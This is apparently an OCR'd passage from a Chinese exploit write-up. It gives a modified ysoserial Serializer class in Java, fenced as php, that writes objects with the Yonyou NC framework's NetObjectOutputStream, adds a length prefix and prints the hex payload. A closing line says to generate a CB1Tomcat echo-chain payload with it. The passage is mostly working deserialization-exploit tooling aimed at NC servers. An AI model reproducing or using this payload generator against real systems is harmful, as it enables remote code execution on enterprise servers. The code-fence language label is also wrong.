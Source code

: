 ```php
package ysoserial;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.util.concurrent.Callable;

import nc.bs.framework.comn.NetObjectOutputStream;
import javax.xml.bind.DatatypeConverter;

public class Serializer implements Callable<byte[]> {
    private final Object object;

    public Serializer(Object object) {
        this.object = object;
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);

        byte[] bytes1 = {(byte) ((out.size() >>> 24) & 255), (byte) ((out.size() >>> 16) & 255), (byte) ((out.size() >>> 8) & 255), (byte) ((out.size() >>> 0) & 255)};
        byte[] bytes2 = out.toByteArray();
        // 将字节数组转换为十六进制字符串并输出
        String hexString1 = DatatypeConverter.printHexBinary(bytes1);
        String hexString2 = DatatypeConverter.printHexBinary(bytes2);
        System.out.println(hexString1+hexString2);

        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
//        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        final NetObjectOutputStream objOut = new NetObjectOutputStream(out);
        objOut.writeObject(obj);
        objOut.finish();
        objOut.flush();
    }

    public byte[] call() throws Exception {
        return serialize(object);
    }
}
```

在项目main目录下编写测试文件，调用CB1Tomcat回显链生成序列化数据。  